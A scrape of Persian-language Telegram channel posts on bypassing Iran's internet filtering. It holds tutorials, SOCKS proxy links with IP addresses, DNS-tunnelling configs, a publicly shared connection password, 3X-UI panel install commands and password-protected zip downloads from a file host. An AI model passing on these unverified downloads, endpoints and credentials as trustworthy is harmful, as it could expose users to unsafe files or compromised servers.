🔄 https://uplod.ir/k4vgur6wjbuf/ZYRLN.mp4.htm…

## hamvex — post 2515

⌛ آموزش کامل دور زدن فیلترینگ با متود ZYRLN 
❤️
🎬
🌐دسترسی به یوتیوب ، تلگرام ، اینستاگرام و سایت‌های فیلتر (نسخه اندروید ) 
🎬 https://youtu.be/JOaJY23ibGw?is=PfOxauTpvxlSULYd 
🐱 https://github.com/ajavadinezhad/zyrln 
⬇️
🔄 https://uplod.ir/k4vgur6wjbuf/ZYRLN.mp4.htm…

## hamvex — post 2513

⌛ آموزش کامل دور زدن فیلترینگ با متود ZYRLN

❤️
🎬
🌐دسترسی به یوتیوب ، تلگرام ، اینستاگرام و سایت‌های فیلتر
(نسخه اندروید )

🎬
https://youtu.be/JOaJY23ibGw?is=PfOxauTpvxlSULYd

🐱
https://github.com/ajavadinezhad/zyrln

⬇️
🔄
https://uplod.ir/k4vgur6wjbuf/ZYRLN.mp4.htm (داخلی)
Pass : @hamvex

⬇️
👩‍💻
https://uplod.ir/guh0yi7vp3sm/zyrln-1.4.0.zip.htm (داخلی)
Pass : @hamvex

⬇️
🗂
https://uplod.ir/xk0mjsaefpo3/zyrln-main.zip.htm (داخلی)
Pass : @hamvex

🔗لینک های استفاده شده:

✅ cloudflare:
https://dash.cloudflare.com/sign-up

✅ Google Script
https://script.google.com

✅ Fake Mail
https://atomicmail.io/app/auth/sign-up

✅Random Secret
https://www.convertsimple.com/random-base64-generator/

✅ Config Format
{"url":"https://script.google.com/...","key":"your-auth-key"}

## hamvex — post 2512

بریم واسه ویدئوی آموزش Zyrln روی اندروید؟

## hamvex — post 2509

خب بریم که ۴ نفرو وصل کنیم خدا خوشش بیاد

## hamvex — post 2508

🗣️ ترکیبی ویتوری + سایفون ايرانسل و همراه اول تست شده
✅ socks://Og@62.220.126.92:30376#%40hamvex%20%E2%81%B6%C2%B9 socks://Og@62.220.126.92:30230#%40hamvex%20%E2%81%B6%C2%B2 socks://Og@62.220.126.92:30494#%40hamvex%20%E2%81%B6%C2%B3 socks://Og@62.220.1…

## hamvex — post 2507

🗣️ ترکیبی ویتوری + سایفون
ايرانسل و همراه اول تست شده
✅

socks://Og@62.220.126.92:30376#%40hamvex%20%E2%81%B6%C2%B9

socks://Og@62.220.126.92:30230#%40hamvex%20%E2%81%B6%C2%B2

socks://Og@62.220.126.92:30494#%40hamvex%20%E2%81%B6%C2%B3

socks://Og@62.220.126.56:32139#%40hamvex%20%E2%81%B6%E2%81%B4

## hamvex — post 2506

  

آقا کانفیگ استارلینکه همينجوریش قبولت داریم
لازم نبود اینو بگی

## hamvex — post 2500

🗣️ ترکیبی ویتوری + سایفون

socks://Og@62.220.126.92:30191#%40hamvex%20%E2%81%B6%E2%81%B0

## networkti — post 330

از اونجایی که اکانت گیتهابم ساسپند شده و تا باز بشه یکم طول میکشه

من نسخه کلاینت واسه چندتا از سیستم عامل های مهم رو فرستادم اینجا، البته واسه BSD و یا نسخه اندروید Termux رو نفرستادم و اگر بخواید میتونید از این کانال خودتون برشون دارید (حتی نسخه سمت سرور هم هست):

https://t.me/PersianGithubMirror

از این کانال هم میتونید کانفیگ بردارید واسه برنامه؛

@thefeedconfig

در تلاشم اکانت رو سریعتر باز کنم

## networkti — post 322

  <a href="https://t.me/networkti/322" target="_blank">📎 Download file</a>

🚀 New Release: #theFeed

📦 Version: v0.17.5
🏷️ Type: Stable
📅 Date: 2026-05-09T08:54:27Z

⚓️ Github: https://github.com/sartoopjj/thefeed
🔗 https://github.com/sartoopjj/thefeed/releases

## networkti — post 321

الان بیلد برنامه واسه سیستم عامل های مختلف رو میفرستم توی کانال

## networkti — post 320

نگران نباشید درستش میکنم

از این کانال میتونید برنامه رو نصب کنید و کانفیگ بردارید

https://t.me/thefeedconfig

## networkti — post 319

اکانت گیتهابم ساسپند شده

## networkti — post 318

اکانت گیتهابم ساسپند شده

## networkti — post 317

توی این کانال هم چندتا روش واسه دانلود از طریق‌ گیتهاب آموزش دادم: @githubdownload درحال حاضر توی ایران از قسمت رلیز های گیتهاب امکان دانلود وجود نداره ولی اگر فایل توی ریپازیتوری باشه دانلود میشه توی این کانال یک سری روش هست که باهاش میتونید از طریق گیتهاب…

## networkti — post 316

بیش از ۱۰۰۰ ساعت هست که فیلترنت رو قطع کردن تقریبا از وسطاش من نتونستم وی پی ان بخرم و نتونستم با dnstt/vaydns/masterdns به تلگرام وصل بشم و اخبار آزاد بگیرم، تلوزیون هم نداشتم که اینترنشنال گوش کنم. نزدیک به یک ملیون هم سرم کلاه رفت سر خرید وی پی ان! اونم…

## networkti — post 315

توی این کانال هم چندتا روش واسه دانلود از طریق‌ گیتهاب آموزش دادم:

@githubdownload

درحال حاضر توی ایران از قسمت رلیز های گیتهاب امکان دانلود وجود نداره ولی اگر فایل توی ریپازیتوری باشه دانلود میشه

توی این کانال یک سری روش هست که باهاش میتونید از طریق گیتهاب-اکشن فایل رو دانلود کنید و بیارید توی ریپازیتوری و بعد با نت داخلی دانلودش کنید

## networkti — post 314

سوالات پر تکرار:

کانفیگ از کجا بیاریم؟

از کانال زیر میتونید کانفیگ های مختلف با موضوعات مختلف بردارید و به برنامه اضافه کنید:

خبری
فیلترشکن
تویتر

@thefeedconfig

## networkti — post 313

سوالات پر تکرار:

ارور "سرور این فایل را برای دانلود ذخیره نکرده است" رو وقتی مبینید که حجم فایل از محدودیت کانفیگ‌ بیشتر هست

فعلا فقط فایل های زیر 20 مگ رو روی کانفیگ ها اجازه دانلود دارید (حدودا)

یکم توضیح بیشتر:

این چیزهای که میگم مربوط به قسمت اصلی هست و به بخش teleMirror ربط نداره

فایل ها از دو مسیر دانلود میشه، یکیش گیتهاب هست که فایل های زیر ۲۰ مگ رو میزاره واسه دانلود، یکی هم از طریق DNS هست که فایل های زیر ۵۰۰ کیلوبایت رو میزاره واسه دانلود

اولویت با گیتهاب هست

## networkti — post 311

سوالات پر تکرار:

- چرا در بخش TeleMirror (کانال های دلخواه) نمیتونیم ویدیو پلی کنیم و یا فایل دانلود کنیم:

بخش TeleMirror نمیتونه ویدیو پلی کنه و فقط یک عکس‌ از ویدیو نشون میده و حتی فایل هم نمیتونه دانلود کنه و فقط نشون میده اونجا یک فایل هست (این محدودیت از کد نیست و قابل رفع نیست)

واسه ویدیو و دانلود فایل باید از بخش اصلی برنامه استفاده کنید (با کانفیگ های توی کانال @thefeedconfig )

و اینکه در بخش اصلی نمیتونید کانال هاشو خودتون مشخص کنید و اون کسی که کانفیگ‌ رو ساخته فقط میتونه کانال هاشو مشخص کنه (ولی توی بخش کانال های دلخواه خودتون کانال هارو مشخص میکنید)

## networkti — post 310

من باز رفتم توی وضعیتی که فیلترشکنم غیر پایدار هست و باید هی فیلترشکن گرون بخرم و ببینم کار‌نمیکنه یا خیلی کند هست🤕 (لطفا واسم فیلترشکن و فیلترشکن فروش نفرستید چون استفاده نمیکنم)

توی این وضعیت شاید نتونم مثل روزهای قبل زیاد روی پروژه کار کنم و یا اینجا فعال باشم

ولی خب سعی میکنم اگر‌ باگ جدی پیش اومد هرجور شده درستش کنم و نسخه جدید بزارم

تا جایی که گیتهاب باز باشه هم به ایشو های گیتهاب جواب میدم

و یک مورد دیگه اینکه اگر‌ کسی میتونه واسه کلاینت برنامه یک آموزش ویدیویی درست کنه و کل بخش هارو توضیح بده بهم بگه 🙏

موضوعاتی که مهمه داخل آموزش درموردش حرف زده بشه:

- 🔸 آموزش کپی کردن کانفیگ از کانال کانفیگ ها و وارد کردنش به برنامه و انتظار واسه بررسی اولیه!
- 🔸 فرق قسمت اصلی ( قسمت تقریبا ضد فیلتر برنامه) و بخش telemirror و محدودیت های بخش telemirror (مثلا اینکه به سرویس های گوگل متکی هست و یا اینکه نمیتونه فایل و ویدیو دانلود کنه و واسه این چیزا باید از بخش اصلی استفاده بشه و ...)
- 🔸 بخش ریزالورها و بانک ریزالور
- 🔸 بخش یافتن ریزالور و تنظیماتش
- 🔸 کاربرد تنظیمات توی کانفیگ های برنامه (یا همون پروفایل ها)

موفق و پیروز باشید 🙏❤️

## Break_The_Barriers — post 1529

دونیت خاصی نشدم، از آخوند عصبانی بودم و خودم راه انداختم، بلکه کمی آروم بشم. شاید بشه بهش گفت مبارزه.

## Break_The_Barriers — post 1528

تمامی متدهای DNS Tunneling این کانال با بهره بردن از دو سرور و مناسب کلاینت SlipNet، به‌صورت «کاملاً رایگان» در اختیار شماست.

🚨 مهم:

برای اتصال به کانفیگ‌ها، نیاز به وارد کردن Username و Password دارید، که به‌صورت روزانه داخل کانال قرار خواهند گرفت.
عضویت در کانال، شما رو در اولویت اتصال قرار می‌ده.

نصب اپلیکیشن اندروید کلاینت SlipNet و نحوه‌ی تنظیم پارامترها

🚨 مهم:

برای استفاده از کانفیگ‌ها، نیاز به DNS Resolver دارید، که با استفاده از آموزش‌های کانال، می‌تونید با توجه به نوع ارائه‌دهنده اینترنت و منطقه خود، اسکن کنید و بهترین ریزالورها رو برای استفاده در کانفیگ‌ها، به دست بیارید.

آموزش نحوه‌ی اسکن DNS Resolver

برای مشاهده و برداشتن کانفیگ‌ها، لینک‌های زیر را لمس کنید.

⚠️ نکته:

لزومی به وارد کردن تمامی کانفیگ‌ها(۴٢ کانفیگ) داخل اپلیکیشن ندارید؛ می‌تونید هر رکورد رو وارد کنید، با ریزالورهایی که به دست آوردید تست کنید و اگر برای شما جواب داد، از همون استفاده کنید.

📋 کانفیگ‌های DNSTT Socks + SSH

📋 کانفیگ‌های NoizDNS Socks + SSH

📋 کانفیگ‌های Slipstream Socks + SSH

📋 کانفیگ‌های VayDNS Socks + SSH به ترتیب نوع رکورد:

▪️ VayDNS - TXT - Socks + SSH

▪️ VayDNS - CNAME - Socks + SSH

▪️ VayDNS - A - Socks + SSH

▪️ VayDNS - AAAA - Socks + SSH

▪️ VayDNS - MX - Socks + SSH

▪️ VayDNS - NS - Socks + SSH

▪️ VayDNS - SRV - Socks + SSH

▪️ VayDNS - NULL - Socks + SSH

▪️ VayDNS - CAA - Socks + SSH

#DNSTT
#NoizDNS
#slipstream
#VayDNS

The one and only @break_the_barriers

## Break_The_Barriers — post 1527

Password: cT8XzQ5P1gLrN2Vm

## Break_The_Barriers — post 1526

x-ui-linux-amd64.tar.gz

## Break_The_Barriers — post 1517

  

این‌گونه.

## Break_The_Barriers — post 1515

  <a href="https://t.me/Break_The_Barriers/1515" target="_blank">📎 Download file</a>

نصب آخرین نسخه 3.0.1 پنل 3X-UI سنایی روی سرور ایران

فایل x-ui-linux-amd64.tar.gz را دانلود و در root سرور ایران کپی کنید و سپس اسکریپت زیر رو اجرا کنید.

sudo tar zxvf x-ui-linux-amd64.tar.gz && sudo chmod +x x-ui/x-ui && sudo chmod +x x-ui/bin/xray-linux-amd64 && sudo chmod +x x-ui/x-ui.sh && sudo cp -r x-ui /usr/local/ && sudo cp x-ui/x-ui.service.debian /etc/systemd/system/x-ui.service && sudo cp x-ui/x-ui.sh /usr/bin/x-ui && sudo chmod +x /usr/bin/x-ui && sudo systemctl daemon-reload && sudo systemctl enable x-ui && sudo systemctl start x-ui

دستور برای دیدن وضعیت سرویس:

sudo systemctl status x-ui

در نهایت پنل با آدرس آی‌پی سرور و پورت 2053 بالا میاد.

http://SERVER-IP:2053

هم یوزرنیم و هم پسورد جهت ورود به پنل admin است.

🚨 پس از اولین ورود، حتماً اطلاعات لاگین(یوزرنیم و پسورد)، پورت پنل و  مسیر(path) را تغییر دهید.

@break_the_barriers

## Break_The_Barriers — post 1514

Somewhere out there, a tree is working overtime to replace the oxygen you waste.

## Break_The_Barriers — post 1513

یه عزیزی ١٠٠٠ تا استار تلگرام داده به کانال، ممنونم ازت. 🫂♥️
زمانش بگذره که بتونم برداشت کنم، می‌ذارمش برای سرور رایگان.

## Break_The_Barriers — post 1512

درود، ارادت.

دوستانی که راه پرداخت تومان نیاز داشتند برای تهیه کانفیگ اختصاصی یا دونیت، می‌تونید با استفاده از @SwapWalletBot به‌صورت تومان، مطمئن و امن، ارز دیجیتال خریداری کنید.

یک ثبت‌نام ساده داره و بعد می‌تونید خرید و انتقال ارز رو خیلی راحت انجام بدید.

## Break_The_Barriers — post 1511

دوست دارم خیلی شفاف دلیل این تصمیم را بگویم. پاسخ کوتاه، یک کلمه است: «فرسودگی».

## Break_The_Barriers — post 1510

Break The Barriers pinned a photo

## Break_The_Barriers — post 1500

  

🚨 اگر اتفاقی افتاد و تنها راه اتصال به اینترنت، متدهای DNS Tunneling بود، سرورها را راه‌اندازی می‌کنم مجدداً و می‌تونید از کانفیگ‌های کانال استفاده کنید.

⚠️ در حال حاضر سرورها خاموش‌اند.

پسورد زیر را جهت اتصال به کانفیگ‌های کانال ذخیره کنید.

بر روی علامت مداد 🖋️ کانفیگ بزنید و در انتهای تنظیمات، در بخش Credentials، پسورد را وارد کنید.

Password: cT8XzQ5P1gLrN2Vm

@break_the_barriers

## Break_The_Barriers — post 1492

Unfortunately I had to shutdown the servers.

## Break_The_Barriers — post 1470

  

DNSly is open source. Read the code, report issues, contribute, or just leave a star if you believe in a free internet.

DNSly.cc

## Break_The_Barriers — post 1468

‏لینک گیت‌هاب پروژه DNSly - اپ iOS ما، که با استفاده از متدهای DNS Tunneling برای کاربران داخل ایران در سخت‌ترین شرایط فیلترینگ، دسترسی به اینترنت آزاد را فراهم خواهد کرد.

به حمایت شما، نیازمندیم.

https://x.com/i/status/2049990604487020977

## Break_The_Barriers — post 1460

من هیچ مشکلی با انتشار محتوای کانال و کانفیگ‌ها ندارم، «اگر منبع رو ذکر کنید، سوءاستفاده نکنید و با استفاده ازشون ممبر نگیرید که سرویس خودتون رو بکنید تو پاچه مردم!»

## Break_The_Barriers — post 1453

این آدرس وب‌سایت و گیت‌هاب پروژه اپ iOS ماست.

اگر حمایت نشیم، امکان انتشارش وجود نداره.
توسعه اپلیکیشن iOS مثل اندروید، کم هزینه نیست.

dnsly.cc

https://github.com/breakthebarriers/DNSly

@break_the_barriers

## Break_The_Barriers — post 1406

Break The Barriers pinned «تمامی متدهای DNS Tunneling این کانال با بهره بردن از دو سرور و مناسب کلاینت SlipNet، به‌صورت «کاملاً رایگان» در اختیار شماست. 🚨 مهم: برای اتصال به کانفیگ‌ها، نیاز به وارد کردن Username و Password دارید، که به‌صورت روزانه داخل کانال قرار خواهند گرفت. عضویت…»

## Break_The_Barriers — post 1397

  <a href="https://t.me/Break_The_Barriers/1397" target="_blank">📎 Download file</a>

📎 Document

## Break_The_Barriers — post 1384

تمامی متدهای DNS Tunneling این کانال با بهره بردن از دو سرور و مناسب کلاینت SlipNet، به‌صورت «کاملاً رایگان» در اختیار شماست.

🚨 مهم:

برای اتصال به کانفیگ‌ها، نیاز به وارد کردن Username و Password دارید، که به‌صورت روزانه داخل کانال قرار خواهند گرفت.
عضویت در کانال، شما رو در اولویت اتصال قرار می‌ده.

نصب اپلیکیشن اندروید کلاینت SlipNet و نحوه‌ی تنظیم پارامترها

🚨 مهم:

برای استفاده از کانفیگ‌ها، نیاز به DNS Resolver دارید، که با استفاده از آموزش‌های کانال، می‌تونید با توجه به نوع ارائه‌دهنده اینترنت و منطقه خود، اسکن کنید و بهترین ریزالورها رو برای استفاده در کانفیگ‌ها، به دست بیارید.

آموزش نحوه‌ی اسکن DNS Resolver

برای مشاهده و برداشتن کانفیگ‌ها، لینک‌های زیر را لمس کنید.

⚠️ نکته:

لزومی به وارد کردن تمامی کانفیگ‌ها(۴٢ کانفیگ) داخل اپلیکیشن ندارید؛ می‌تونید هر رکورد رو وارد کنید، با ریزالورهایی که به دست آوردید تست کنید و اگر برای شما جواب داد، از همون استفاده کنید.

📋 کانفیگ‌های DNSTT Socks + SSH

📋 کانفیگ‌های NoizDNS Socks + SSH

📋 کانفیگ‌های Slipstream Socks + SSH

📋 کانفیگ‌های VayDNS Socks + SSH به ترتیب نوع رکورد:

▪️ VayDNS - TXT - Socks + SSH

▪️ VayDNS - CNAME - Socks + SSH

▪️ VayDNS - A - Socks + SSH

▪️ VayDNS - AAAA - Socks + SSH

▪️ VayDNS - MX - Socks + SSH

▪️ VayDNS - NS - Socks + SSH

▪️ VayDNS - SRV - Socks + SSH

▪️ VayDNS - NULL - Socks + SSH

▪️ VayDNS - CAA - Socks + SSH

🎁 آدرس‌های ولت جهت دونیت و حمایت از روشن ماندن سرورها

#DNSTT
#NoizDNS
#slipstream
#VayDNS

The one and only @break_the_barriers

<!-- MSG END -->

<!-- NAV START -->

<!-- NAV END -->
